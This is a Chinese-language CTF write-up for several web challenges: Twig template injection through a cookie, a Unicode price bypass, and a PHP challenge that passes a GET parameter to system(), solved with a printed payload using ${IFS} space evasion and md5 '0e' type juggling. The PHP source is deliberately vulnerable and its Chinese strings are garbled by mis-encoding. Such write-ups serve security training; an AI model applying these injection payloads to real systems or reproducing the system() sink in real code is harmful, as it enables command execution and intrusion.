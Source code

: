 # [BJDCTF2020]Cookie is so stable
> 测试后发现在 flag.php 登录后，Cookie 中会出现一个 user 的参数，并且进一步测试后发现是 `Twig` 模板注入 ({{6*'6'}} 如果回显是 36 时则是 Twig，是 666666 时则是 Jinja)

<img src="./images/4.png" alt="">

> 直接用之前总结 `Twig 模板引擎 SSTI 注入` 的链子打就行

<img src="./images/5.png" alt="">

# [ASIS 2019]Unicorn shop
> 进入题目是一个购买的页面，先随意输入一个 id 后发现出现报错

<img src="./images/6.png" alt="">

> 测试后发现当输入的价格不是个位数是会出现报错 `Only one char(?) allowed!`，观察网页源代码发现解题点

<img src="./images/7.png" alt="">

> 获得 Flag 需要找到一个比 1337 大的数字，这里需要了解一下 `utf-8编码` 的转换安全问题，在 [compart](https://www.compart.com/en/unicode/) 中找一个符合条件的字符即可，例如：`%E1%8D%BC`

<img src="./images/8.png" alt="">

# [WUSTCTF2020]朴实无华
> 访问 `robots.txt` 发现提示 `fAke_f1agggg.php`，访问后在 Response 中发现关键点：`Look_at_me: /fl4g.php`

<img src="./images/9.png" alt="">

> 访问 `/fl4g.php` 后拿到解题源码

```php
<?php
header('Content-type:text/html;charset=utf-8');
error_reporting(0);
highlight_file(__file__);


//level 1
if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "鎴戜笉缁忔剰闂寸湅浜嗙湅鎴戠殑鍔冲姏澹�, 涓嶆槸鎯崇湅鏃堕棿, 鍙槸鎯充笉缁忔剰闂�, 璁╀綘鐭ラ亾鎴戣繃寰楁瘮浣犲ソ.</br>";
    }else{
        die("閲戦挶瑙ｅ喅涓嶄簡绌蜂汉鐨勬湰璐ㄩ棶棰�");
    }
}else{
    die("鍘婚潪娲插惂");
}
//level 2
if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "鎯冲埌杩欎釜CTFer鎷垮埌flag鍚�, 鎰熸縺娑曢浂, 璺戝幓涓滄緶宀�, 鎵句竴瀹堕鍘�, 鎶婂帹甯堣桨鍑哄幓, 鑷繁鐐掍袱涓嬁鎵嬪皬鑿�, 鍊掍竴鏉暎瑁呯櫧閰�, 鑷村瘜鏈夐亾, 鍒灏忔毚.</br>";
   else
       die("鎴戣刀绱у枈鏉ユ垜鐨勯厭鑲夋湅鍙�, 浠栨墦浜嗕釜鐢佃瘽, 鎶婁粬涓€瀹跺畨鎺掑埌浜嗛潪娲�");
}else{
    die("鍘婚潪娲插惂");
}

//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "鎯冲埌杩欓噷, 鎴戝厖瀹炶€屾鎱�, 鏈夐挶浜虹殑蹇箰寰€寰€灏辨槸杩欎箞鐨勬湸瀹炴棤鍗�, 涓旀灟鐕�.</br>";
        system($get_flag);
    }else{
        die("蹇埌闈炴床浜�");
    }
}else{
    die("鍘婚潪娲插惂");
}
?>
```
> Payload：`num=2e4&md5=0e215962017&get_flag=nl${IFS}fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag`

<img src="./images/10.png" alt="">

# [De1CTF 2019]SSRF Me
